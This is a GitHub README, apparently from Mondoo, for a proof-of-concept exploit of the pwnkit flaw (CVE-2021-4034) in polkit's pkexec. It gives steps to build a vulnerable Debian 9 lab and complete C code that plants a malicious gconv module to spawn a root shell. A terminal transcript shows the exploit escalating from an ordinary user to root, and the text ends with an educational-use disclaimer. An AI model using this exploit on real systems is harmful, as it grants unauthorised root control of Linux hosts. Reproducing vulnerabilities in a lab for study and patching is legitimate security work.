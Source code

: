 # pwnkit - CVE-2021-4034

The original advisory by the real authors is [here](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)

I used the following vagrant machine

```
config.vm.define "debian9" do |debian9|
  debian9.vm.box = "bento/debian-9"
  debian9.vm.network :private_network, ip: "192.168.56.237"
end
```

Install the vulnerable policykit and gcc package

``` bash
sudo apt update
sudo apt install -y policykit-1=0.105-18+deb9u1 libpolkit-agent-1-0=0.105-18+deb9u1 libpolkit-backend-1-0=0.105-18+deb9u1 libpolkit-gobject-1-0=0.105-18+deb9u1 gcc
```

Copy the C-code to the machine

``` text
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

Compile the pwnkit.c exploit

~~~ bash
vagrant@debian-9:/tmp$ gcc pwnkit.c -o priv-es
vagrant@debian-9:/tmp$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)
vagrant@debian-9:/tmp$ ./priv-es 
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),1000(vagrant)
~~~

## Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that we (Mondoo Inc) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not Mondoo Inc's responsibility.
